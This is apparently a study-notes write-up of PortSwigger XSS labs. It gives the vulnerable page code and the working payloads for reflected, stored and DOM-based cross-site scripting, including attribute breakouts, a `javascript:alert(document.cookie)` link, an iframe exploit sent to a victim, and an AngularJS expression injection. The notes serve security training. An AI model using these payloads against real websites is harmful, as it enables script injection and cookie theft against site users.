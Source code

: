 # Cross-site scripting (XSS)

See detatail at [here](https://portswigger.net/web-security/cross-site-scripting)

Cheatsheet at [here](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

Type of XSS attack in example:
 - [Reflected XSS](#reflected-xss)
 - [Stored XSS](#stored-xss)
 - [DOM-based XSS](#dom-based-xss)

## Reflected XSS

Get deteail at [here](https://portswigger.net/web-security/cross-site-scripting/reflected)

[Lab 1](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

Description of this lab: perform a cross-site scripting attack that calls the alert function

Typing `<script>alert()</script>` into search bar to call alert function, then solved the lab.

[Lab 7](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded)

Description of this lab: vulnerability in the search blog, injects an attribute and calls the alert function.

Try to find somthing with search bar, and check source code, we can found `<input type="text" placeholder="Search the blog..." name="search" value="test">`. Check at [here](https://portswigger.net/support/exploiting-xss-injecting-into-tag-attributes), we will use `" onload="alert()` but it was not worked because this tag is can not be loaded, so replace it to `onmouseover`. The final payload is `" onmouseover="alert()`, then drag mouse to search bar and solved the lab.

[Lab 9](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded)

Description of this lab: To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function in the search query tracking functionality.

Try to type something into search bar, and check the code

````html
    <script>
        var searchTerms = 'test';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');             
    </script>

    <img src="/resources/images/tracker.gif?searchTerms=test">
    
````

Exploit function `encodeURIComponent` with this [post](https://security.stackexchange.com/questions/66252/encodeuricomponent-in-a-unquoted-html-attribute). Unquoted attributes can be broken out of with many characters, including `[space] % * + , - / ; < = > ^ and |`. The final payload `'/alert()/'`.

[Lab 12](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)

Description of this lab: create an injection that calls the alert() function with vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response

## Stored XSS

Get detail at [here](https://portswigger.net/web-security/cross-site-scripting/stored)

[Lab 2](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)

Description of this lab: submit a comment that calls the alert function when the blog post is viewed.

Type `<script>alert()</script>` into content of comment box at any post, then solved the lab.

[Lab 8](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)

Description of this lab: To solve this lab, submit a comment that calls the alert function when the comment author name is clicked (when user have own website).

We can use same technique of **lab 5**. Post a comment with `javascript:alert()` in website field, then solve the lab.

## DOM-based XSS

Get detail at [here](https://portswigger.net/web-security/cross-site-scripting/dom-based)

[Lab 3](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)

Description of this lab: perform a cross-site scripting attack that calls the alert function using document.write

Check how website work, look at the source:
```js
    <script>
        function trackSearch(query) {
            document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
        }
        var query = (new URLSearchParams(window.location.search)).get('search');
        if(query) {
            trackSearch(query);
        }
    </script>
```

We use document.write to insert plain HTML into the DOM (which opens the door for DOM XSS attacks). Moreover, if query is successful, website will load svg image. Type `"><svg onload=alert()>` (it will be triggered when svg load) into search bar, then solved the lab.

[Lab 4](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)

This lab has the same description as the previous one but using innerHTML

Check how website work, look at the source:
```js
    
    function doSearchQuery(query) {
        document.getElementById('searchMessage').innerHTML = query;
    }
                        
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        doSearchQuery(query);
    }
                        
```

Try to find cheatsheet with keyword `innerHTML` and found this:
```js
    '<img/src/onerror=alert(1)>';</script>
```
The mechanic of this payload like this: here is sample js 
```js
    <script>
    ...
    </script>
```

After we insert payload, it become:
```js
    <script>
        '<img/src/onerror=alert(1)>';
        </script> /*this is the end of script and script will be triggered when img load error*/
    </script>

```

Type this one into search bar and solved the lab.

[Lab 5](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)

Description of this lab: make the "back" link alert document.cookie using anchor href attribute

In this lab, website includes submit feedback, when try to submit form, url was change like this `example.com/feedback?returnPath=/post`, it seems to "back" to previous post. We can found the source of this:
```js
    $(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
                        
```

Check the cheatsheet, the final payload is `/feedback?returnPath=javascript:alert(document.cookie)`

[Lab 6](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

Description of this lab: deliver an exploit to the victim that calls the print() function in their browser.

In this lab, we got exploit server, using this for sending exploit to victim. Finding in cheatsheet with keyword `print()`, we can found `<img src=x onerror=print()>` (meaning: trigger when load error). However, in this exploit server, there is no place for victim's url, so we need to modify payload, we can mix with `iframe` and `onload`. The final payload `<iframe src="example.com/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`, send it to victim and solved the lab.

[Lab 10](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

Description of this lab: perform a cross-site scripting attack that breaks out of the select element and calls the alert function in the stock checker functionality.

Open detail of any product, at the end of the page, it has `Check stock`. When user click button, website will check available stocks in specific location. Check the code

```html
    <script>
        var stores = ["London","Paris","Milan"];
        var store = (new URLSearchParams(window.location.search)).get('storeId');

        document.write('<select name="storeId">');
        if(store) {
            document.write('<option selected>'+store+'</option>');
        }

        for(var i=0;i<stores.length;i++) {
            if(stores[i] === store) {
                continue;
            }
            document.write('<option>'+stores[i]+'</option>');
        }
        document.write('</select>');
    </script>
```

Moreover, we can modify url parameter to send value of storeId to server and we can exploit variable `store`. The final payload `product?productId=1&storeId="></select><img src=1 onerror=alert()>` and the lab will be solved.

The code after use payload
```html
    ...
    <select name="storeId"> ... </select>
    <img src="1" onerror="alert()"> /* this code is injected into source */
    <option>London</option>
    ...
```

[Lab 11](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)

Description of this lab: perform a cross-site scripting attack that executes an AngularJS expression and calls the alert function.

Check cheatsheet at [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

The final payload `{{constructor.constructor('alert(1)')()}}` (meaning: render value in `{{ }}`, and value is contructor), type this payload into search bar and hit enter then solved the lab.





